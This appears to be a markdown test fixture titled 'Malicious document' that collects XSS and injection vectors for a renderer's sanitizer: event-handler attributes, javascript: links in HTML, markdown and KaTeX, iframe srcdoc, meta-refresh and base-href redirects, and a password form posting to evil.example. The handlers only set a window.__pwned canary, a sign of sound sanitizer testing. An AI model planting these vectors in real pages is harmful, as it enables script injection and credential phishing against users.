


# Malicious document

<svg onload="window.__pwned = 'svg'"><circle r="5"/></svg>
<a href="javascript:window.__pwned='js-link'">click me</a>
[md link](javascript:window.__pwned='md-link')
[data link](data:text/html,)
<iframe src="https://example.com" srcdoc=""></iframe>
<object data="x.swf"></object><embed src="x.swf">
<form action="https://evil.example"><input name="password" type="password"><button>Go</button></form>

<link rel="stylesheet" href="https://evil.example/x.css">
<meta http-equiv="refresh" content="0;url=https://evil.example">
<base href="https://evil.example/">

overlay

<math><mtext><table><mglyph></mglyph></table></mtext></math>

s
x

<a href="#ok" target="_top">target</a>
<video src="v.mp4" autoplay onplay="window.__pwned='video'"></video>
<input type="text" value="phish" autofocus onfocus="window.__pwned='focus'">

$\href{javascript:window.__pwned='katex'}{katex}$
